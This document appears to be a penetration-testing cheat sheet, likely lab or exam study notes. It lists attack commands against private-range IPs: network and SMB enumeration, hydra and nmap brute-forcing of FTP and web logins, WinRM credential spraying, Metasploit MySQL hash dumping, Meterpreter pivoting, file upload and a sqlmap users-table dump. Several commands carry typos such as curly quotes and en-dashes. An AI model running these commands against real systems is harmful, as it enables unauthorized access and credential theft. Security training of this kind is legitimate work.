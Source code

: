# Nmap scans
```
nmap 192.168.55.0/24 -sn
```

```
nmap -Pn -p 8080 192.168.55.100
```
```
nmap -Pn -F 192.168.55.100
```

```
nmap -Pn -sU 192.168.55.100
```
```
nmap 192.168.55.100 -p- --open -sV -sC -sS -O
```
```
nmap -A -T5 192.168.55.100
```

# SMB Enumeration

```
nmap -p 445 –script smb-enum-shares 192.168.55.100
```
```
smbmap -u admin -p password -d . -H 192.168.55.100
```
```
smbmap -H 192.168.55.100 -u admin -p password  --download ‘C$\flag.txt’
```
```
nmblookup -A 192.168.55.100
```
```
smb  -L 192.168.100.55 -N
```
```
rpcclient -U “” -N 192.168.100.55
```
```
enum4linux -a 192.168.55.112
```
# FTP Enumeration
```
ftp  192.168.112.50 21
```
```
hydra -L /unix_users.txt -P /unix_passwords.txt 192.168.112.50 ftp
```
```
nmap 192.168.112.50 --script ftp-brute --script-args userdb=/root/users -p 21
```
```
nmap 192.168.112.50 -p 21 --script ftp-anon
```
# MYSQL 

```
Mysql -u root -p -h 192.168.112.50 
```
```
>use /mysql_writable_dirs
```
```
>use /mysql_hashdump
```
```
nmap 192.168.100.23 -sV -p 3306 –script mysql-users
```



# WinRM
```
Crackmapexec 192.168.112.23 winrm -u /users.txt -p /passwords.txt
```

# sub
```
smbclient -L \\\\192.168.23.100\\ -U admin
```
```
ssh user@192.168.23.100
```
```
run autoroute -s 192.168.23.0/24
```
```
portfwd add -l 1234 -p 80 -r 192.176.23.44
```

# download and upload
```
dirb http://192.173.44.10
```
```
curl -X GET 192.173.44.10
```
```
curl -X HEAD 192.73.44.10
```
```
curl -I 192.73.44.10
```
```
curl -X OPTIONS 192.73.44.10/login.php -v
```
```
curl -X POST 192.73.44.10/login.php -v
```
```
curl -X POST 192.73.44.10/login.php -v -d “name=john&Password=password” -v
```
```
curl 192.72.33.10/uploads/ --upload-file hello.txt
```
```
sqlmap -u “url” –cookie ‘cookieid”  -p title -D bwapp -T users –columns
```
```
hydra -L /users -P /passwords 192.168.115.23 http-post-form “login.php:login = ^user^&password=^pass^&securitylevel=0&form=submit Invalid credentials or user not activated!”
```
